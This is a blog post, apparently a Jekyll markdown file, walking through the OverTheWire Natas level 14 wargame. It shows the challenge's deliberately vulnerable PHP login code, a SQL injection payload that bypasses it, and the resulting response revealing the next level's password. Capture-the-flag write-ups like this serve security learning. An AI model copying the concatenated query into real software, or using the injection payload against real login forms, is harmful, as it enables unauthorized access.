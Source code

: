 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 14"
date:   2015-09-21
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

## Level 14 > Level 15

![natas14-01](/img/otw-natas/natas14-01.png)

```
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

SQLi! And a pretty bad one at that. I did this in Burp Suite's Repeater since you can manually control whether characters are encoded rather than the browser deciding for you. This being about the most obviously injectable page possible, the most classic injection does the trick. Mind `'` vs `"`, have to admit that tripped me up for a few minutes before I noticed.

```
username=foo&password=foo" or "1"="1
```

```
<h1>natas14</h1>
<div id="content">
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Success!

TODO: elaborate on bool logic
